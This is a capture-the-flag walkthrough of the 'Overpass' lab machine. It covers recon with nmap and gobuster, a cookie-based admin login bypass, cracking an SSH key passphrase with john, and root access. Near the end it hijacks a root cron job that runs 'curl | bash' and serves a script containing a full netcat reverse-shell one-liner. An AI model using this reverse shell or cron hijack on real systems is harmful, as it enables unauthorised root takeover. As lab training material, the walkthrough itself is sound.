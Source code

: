 # Overpass 1 - [Room]
Well lets start for getting the machine ip, and do some start recon:
- 10.10.194.125

## Recon 
lets start with the nmap:

`nmap -sCV -vv -A 10.10.194.125`

if you wanna letput to a file do 

`nmap -sCV -vv -A 10.10.194.125 -o nmap.log`

Nmap Output:
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see two services: 
**SSH**: port 22, OpenSSH 7.6p1
**HTTP**: port 80, Golang net/http server

So lets use gobuster to see some directories on the webpage:

`gobuster -w path/to/wordlist -u 10.10.194.125`

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.194.125/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/02/11 14:32:17 Starting gobuster
=====================================================
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
=====================================================
2023/02/11 14:34:48 Finished
=====================================================
```
here we can see some good pages, but lets focus on the admin, its the more important here

## Gaining Access

Lets go to http://10.10.194.125/admin
we see a login panel, lets try some default credentials:
![image](https://user-images.githubusercontent.com/80606587/218267157-f919bfd6-fd66-48e6-9f80-f69634990954.png)

And as we see, doesnt work (admin:admin, admin:password, admin:passwd, admin:admin123, admin:password123)
lets give a look into the source code

![image](https://user-images.githubusercontent.com/80606587/218267207-ef194ee0-1b0e-4599-9b72-934e0c32c650.png)

lets go into "login.js"..

![image](https://user-images.githubusercontent.com/80606587/218267235-550ab11d-a881-4ca9-9d41-896b1829dd77.png)

Damn, we found a nice thing here.

Lets try go over here

![image](https://user-images.githubusercontent.com/80606587/218267541-9b55c343-4933-4b8d-9fb0-8b1bf156550e.png)

And add cookies to this:

![image](https://user-images.githubusercontent.com/80606587/218267643-b015b059-9b53-4ed7-8d23-3fbb73ac8d75.png)

Sooo, lets refresh now..
And as we can see, we in
![image](https://user-images.githubusercontent.com/80606587/218267791-cafb0ab5-ed10-46cd-aaad-900ecbb86ea2.png)

Ok, now with this Private Key we can try something

\\ I just wanna alert, that ip change here because of some reason the machine crashed to me 💀, but steps doesnt change nothing chill

We got a private key, and we get the name james, sooo

![image](https://user-images.githubusercontent.com/80606587/218268163-c73fa2c1-88a0-4c0d-9f79-a0901a96b4d7.png)

As we can see we need passphrase for the key too, soooo, lets use ssh2john

`python3 ssh2john.py id_rsa > hash `
we will get this in the hash file
(I dont show the total hash for obvious reasons)
```
id_rsa:$sshng$1$16$9F85D92F34F4262
6F13A7493AB48F337$1200$2cdbb9c1004
[REDECTED]1cfba4a67771ce135a5c4852
15db9ac895f9ea05cd4b6e8edca6bfc53b
```

So now lets run: `john hash_file --wordlist=rockyou.txt`

![image](https://user-images.githubusercontent.com/80606587/218269637-18ccc544-3146-4ce7-8969-9469f1541165.png)

![image](https://user-images.githubusercontent.com/80606587/218269808-12d150d1-649f-4328-9297-7dfa96d8f6bc.png)

So lets log in SSH with the credentials


and nice, lets play here, lets first grab the flag with 

`cat user.txt`

now lets seek for privesc

I dropped linpeas in the machine, via python3 -m http.server

and we get somethings from .
we discover that we can edit /etc/hosts config sooo

![image](https://user-images.githubusercontent.com/80606587/218269959-e2057b7d-c82d-4bc2-8b6c-9268b148359e.png)

looking too /etc/crontab
we know
```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
that he is searching for updates all thet time, so lets make this
```
mkdir downloads && cd downloads && mkdir src && echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f" > src/buildscript.sh

cd ..
```

now lets run sudo python3 -m http.server 80
and we will get a root bash in our nc listener that we setted up on port 4242
